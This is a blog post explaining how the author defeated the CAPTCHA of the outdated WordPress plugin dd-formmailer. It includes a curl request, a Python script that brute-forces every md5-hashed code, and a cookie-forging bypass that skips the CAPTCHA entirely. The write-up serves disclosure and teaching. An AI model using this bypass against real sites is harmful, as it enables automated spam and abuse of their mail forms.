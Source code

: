 +++
date = "2017-02-18T10:55:59-05:00"
draft = false
title = "Defeating dd-formmailer's Weak CAPTCHA"
description = "How I broke a Wordpress plugin's weak CAPTCHA"
hasmath = true
+++

Yesterday, I visited a website that uses [dd-formmailer][1], a Wordpress
plugin that provides a form for sending an email, complete with a
CAPTCHA intended to prevent automated abuse. Here's a screenshot:

![A screenshot of the dd-formmailer form][i1]

I was bored and curious, so I looked at the CAPTCHA image and noticed it
was always served from the same path:
`/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1`. How, I
wondered, does the script handling form submissions know if the user
entered the right CAPTCHA? A cookie?

    $ curl -si http://[snip].com/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1 | head
    HTTP/1.1 200 OK
    ...
    Set-Cookie: ddfmcode=bacb87c6f4ad4b08090e838d074bc18f; expires=Sat, 18-Feb-2017 17:47:30 GMT; path=/; domain=.[snip].com
    ...

A cookie! With what, the md5 of the correct answer?

    $ echo -n 3649B | md5sum
    bacb87c6f4ad4b08090e838d074bc18f  -

Yes!

As you can probably tell already, this is not the best approach.

# Pass 1

Looking at [the source][2],

    srand((double)microtime()*1000000); 
    $ddfmcode = substr(strtoupper(md5(rand(0, 999999999))), 2, 5); 
    $ddfmcode = str_replace("O", "A", $ddfmcode); // for clarity
    $ddfmcode = str_replace("0", "B", $ddfmcode);
    setcookie("ddfmcode", md5($ddfmcode), time()+3600, '/', '.' . $this_domain); 

you can see that CAPTCHA codes generated are 5-character hex strings
without 0s, leaving only $15^5 = 759,375$ possibilities. (Contrary to the
third line, hex strings don't contain the letter O 😄). We can brute
force all of these in less than two seconds with a simple Python script:

    #!/usr/bin/env python3
    
    from hashlib import md5
    
    for i in range(16**5):
        # Skip numbers with a 0 in their 5-char hex form
        if i >> 16 == 0 or \
           i >> 12 & 0xF == 0 or \
           i >> 8 & 0xF == 0 or \
           i >> 4 & 0xF == 0 or \
           i & 0xF == 0:
            continue
    
        captcha = '{:05X}'.format(i)
        hashed = md5(captcha.encode()).hexdigest()
        print('{}\t{}'.format(hashed, captcha))

and

    $ time ./bruteforce.py >hashes

    real    0m1.870s
    user    0m1.820s
    sys     0m0.052s

Then, when the server gives us a hash in the cookie, we can easily look
it up:

    $ time grep bacb87c6f4ad4b08090e838d074bc18f hashes
    bacb87c6f4ad4b08090e838d074bc18f        3649B
    
    real    0m0.016s
    user    0m0.008s
    sys     0m0.004s

But it gets better.

# Pass 2

While writing the last section, I realized: what stops clients from
sending a cookie with their own hash? The answer is nothing.

For example, I can send a `Cookie:
ddfmcode=b252d1fe1c0c16d001027c2fce9b6529` header (the md5 of "BANANA")
and then "BANANA" in the `fm_verify` form field and successfully send
the email. You don't need to request the CAPTCHA image at all!

Here's the relevant section of code:

    $t = ddfm_stripslashes($form_input['fm_verify']);
    ...
    } else if ($_COOKIE["ddfmcode"] != md5(strtoupper($t))) { 
    
    	$errors[] = DDFM_INVALIDVER;
    
    } 

# Conclusion

Avoid Wordpress plugins last updated in 2009.

[1]: http://www.dagondesign.com/articles/secure-form-mailer-plugin-for-wordpress/
[2]: http://www.dagondesign.com/articles/secure-php-form-mailer-script/#download
[i1]: /blog/img/defeating/1.png
